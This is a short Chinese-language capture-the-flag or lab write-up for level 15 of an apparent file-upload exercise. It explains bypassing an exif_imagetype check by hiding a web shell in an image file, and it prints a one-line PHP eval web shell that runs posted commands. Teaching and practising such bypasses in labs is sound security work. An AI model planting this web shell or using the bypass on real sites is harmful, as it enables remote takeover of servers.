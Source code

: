 ## 解题wp(By:独立团孙德胜Alan)
本pass可以通过制作图片马绕过

## 1.打开第十五关

![](./img/1.png)

## 2.上传一个普通的shell.php文件

```
<?php @eval($_POST('Alan'));?>
```

![](./img/2.png)



## 3.分析代码

##### ![](./img/3.png)

##### 本Pass中使用的是exif_imagetype函数来检测上传的文件是否为图片，其返回值和Pass-14中getimagesize函数返回值的索引2是一样的

## 4.我们可以本地制作一个图片马绕过

![](./img/4.png)

![](./img/5.png)

